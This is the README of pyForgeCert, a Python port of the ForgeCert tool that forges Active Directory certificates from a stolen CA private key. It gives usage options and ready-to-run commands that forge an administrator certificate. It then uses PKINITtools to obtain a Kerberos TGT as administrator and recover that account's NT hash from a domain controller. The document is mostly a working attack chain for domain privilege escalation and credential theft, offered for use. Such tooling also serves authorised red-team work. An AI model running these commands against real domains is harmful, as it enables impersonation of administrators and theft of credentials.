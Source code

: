 # pyForgeCert
pyForgeCert is a Python equivalent of the original [ForgeCert](https://github.com/GhostPack/ForgeCert) written in C#.

## Usage
```
pyForgeCert

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        Input file, default (PEM).
  -p IPASSWORD, --ipassword IPASSWORD
                        Password to the CA private key file.(PFX file).
  -s {User,Computer}, --subject {User,Computer}
                        Subject name in the certificate.
  -a ALTNAME, --altname ALTNAME
                        UPN of the user to authenticate as.
  -o OUTPUT, --output OUTPUT
                        Path where to save the new .pfx certificate.
  -op OPASSWORD, --opassword OPASSWORD
                        Password to the .pfx file.
  -c CRL, --crl CRL     Ldap path to a CRL for the forged certificate.
  -pfx                  If the input file is PFX.
```

**Using PEM**
```
python pyForgeCert.py -i cert.pem -o admin.pfx
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/202108061320030.png)

Default SubjectAltName is `administrator`, if you want to change it, use `-a`.

**Using PFX**
```
python pyForgeCert.py -i cert.pfx -o admin.pfx -pfx -p 123
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/202108061322818.png)

Once you get the new pfx, a TGT can be request with [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). The NT hash can then be recovered with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py).

```
python tools/gettgtpkinit.py -cert-pfx admin.pfx -pfx-pass 123 cgdomain.com/administrator -dc-ip 10.211.55.200 admin.ccache
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/202108061330730.png)


```
python tools/getnthash.py cgdomain.com/administrator -dc-ip 10.211.55.200 -k 62bcb453bb21d4f8dd04492dd01d61137cb95367ca7e47587251e0563e6460f7
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/202108061333685.png)

**How to change language**

Edit conf.py and change LANG variable to your lang

**Supported Languages**
English (set by default in repository): en
Spanish: es
